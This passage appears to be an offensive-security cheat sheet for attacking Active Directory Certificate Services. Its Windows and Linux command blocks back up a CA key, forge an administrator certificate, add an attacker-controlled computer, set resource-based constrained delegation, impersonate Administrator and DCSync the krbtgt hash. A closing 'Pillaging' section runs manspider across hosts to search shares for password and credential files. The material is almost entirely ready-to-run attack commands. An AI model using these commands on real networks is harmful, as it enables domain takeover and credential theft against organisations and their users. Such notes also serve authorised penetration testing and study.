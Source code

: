 ```powershell
# - PowerView to Extract Computer SID

# Perform RBCD Attack via LDAP
PassTheCert.exe --server 192.168.210.10 --start-tls --cert-path admin.pfx --cert-password Password123 --rbcd --target "CN=HQDC01,OU=DOMAIN CONTROLLERS,DC=DOMAIN,DC=LOCAL" --sid [SID of machine acc you control]
```

**Linux:**
```bash
# Extract CA Certificate
certipy ca -backup -u 'user@contoso.local' -p 'password' -ca 'ca_name'

# Force Administrator Certificate
certipy forge -ca-pfx [CA].pfx -upn administrator@domain.local -subject 'CN=ADMINISTRATOR,CN=USERS,DC=DOMAIN,DC=LOCAL'

# Extract CRT and KEY files
certipy cert -pfx forged.pfx -nokey -out user.crt
certipy cert -pfx forged.pfx -nocert -out user.key

# Add Attacker Controlled Computer (Or Re-use from previous exploitation, if MAQ == 0)
passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore

# Modify RBCD attribute on Target Machine
passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to [RBCD]$ -delegate-from [TARGET-DC]$

# Request Sevrive Ticket for LDAP Service on DC
getST.py -spn 'LDAP/[DC].domain.local' -impersonate Administrator -dc-ip '[DC IP]' 'domain.local/rbcd$:ThisIsAPassword'

# Load Kerberos Ticket
export KRB5CCNAME=`pwd`/Administrator.ccache

# Perform DCSync
secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
```

General ADCS Side Notes: If PKINIT Authentication is not working, LDAP(s)/Schannel can be used. 

Use the **dap-shell** flag with certipy.


## Windows Enuemration



### Pillaging

Manspider
```bash
script -a manspider1
manspider windowshosts.txt -u user -p pass -n -f passw login logon cred Untitled -e kdbx cfg config conf ps1 cmd sh bat kdbx txt zip xls doc pdf

script -a manspider2 # this one gets ran and then left to parse if theres time
manspider windowshosts.txt -u user -p pass -n -f username -e txt xls doc pdf conf & 
```
